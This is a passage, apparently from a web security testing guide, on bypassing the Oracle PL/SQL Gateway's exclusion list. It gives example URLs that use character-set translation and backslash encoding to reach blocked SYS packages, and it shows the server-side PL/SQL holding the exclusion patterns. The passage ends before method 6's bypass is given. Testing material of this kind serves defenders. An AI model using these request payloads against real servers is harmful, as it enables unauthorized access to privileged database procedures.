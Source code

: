 ### Bypassing the Exclusion List - Method 4

Depending upon the character set in use on the web server and on the database server, some characters are translated. Thus, depending upon the character sets in use, the `ÿ` character (`0xFF`) might be converted to a `Y` at the database server. Another character that is often converted to an upper case `Y` is the Macron character - `0xAF`. This may allow an attacker to bypass the exclusion list:

`http://www.example.com/pls/dad/S%FFS.PACKAGE.PROC`
`http://www.example.com/pls/dad/S%AFS.PACKAGE.PROC`

### Bypassing the Exclusion List - Method 5

Some versions of the PL/SQL Gateway allow the exclusion list to be bypassed with a backslash - `0x5C`:

`http://www.example.com/pls/dad/%5CSYS.PACKAGE.PROC`

### Bypassing the Exclusion List - Method 6

This is the most complex method of bypassing the exclusion list and is the most recently patched method. If we were to request the following

`http://www.example.com/pls/dad/foo.bar?xyz=123`

the application server would execute the following at the database server:

```sql
declare
 rc__ number;
 start_time__ binary_integer;
 simple_list__ owa_util.vc_arr;
 complex_list__ owa_util.vc_arr;
begin
 start_time__ := dbms_utility.get_time;
 owa.init_cgi_env(:n__,:nm__,:v__);
 htp.HTBUF_LEN := 255;
 null;
 null;
 simple_list__(1) := 'sys.%';
 simple_list__(2) := 'dbms\_%';
 simple_list__(3) := 'utl\_%';
 simple_list__(4) := 'owa\_%';
 simple_list__(5) := 'owa.%';
 simple_list__(6) := 'htp.%';
 simple_list__(7) := 'htf.%';
 if ((owa_match.match_pattern('foo.bar', simple_list__, complex_list__, true))) then
  rc__ := 2;
 else
  null;
  orasso.wpg_session.init();
  foo.bar(XYZ=>:XYZ);
  if (wpg_docload.is_file_download) then
   rc__ := 1;
   wpg_docload.get_download_file(:doc_info);
   orasso.wpg_session.deinit();
   null;
   null;
   commit;
  else
   rc__ := 0;
   orasso.wpg_session.deinit();
   null;
   null;
   commit;
   owa.get_page(:data__,:ndata__);
  end if;
```